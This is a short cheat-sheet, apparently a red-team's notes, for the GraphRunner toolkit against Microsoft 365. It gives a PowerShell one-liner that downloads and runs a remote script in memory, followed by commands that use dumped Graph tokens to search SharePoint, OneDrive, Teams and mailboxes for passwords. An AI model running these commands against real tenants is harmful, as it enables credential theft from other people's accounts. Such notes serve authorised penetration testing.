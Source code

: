 # GraphRunner

## Command to execute: IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1') | iex

### Commands:

 - List-GraphRunnerModules (Lists all modules of graphrunner)

 - Get-GraphTokens -UserPasswordAuth (Authenticate with valid credentials to open a graph API session)

 - Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password' (Search for files on OneDrive and Sharepoint containing the string "password" by using the tokens we dumped from the Graph API session)

 - Invoke-SearchTeams -Tokens $tokens -SearchTerm password (Search all Teams channels with the specific term that are readable by our user)

 - Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40 (Searches the mailbox of our current user)




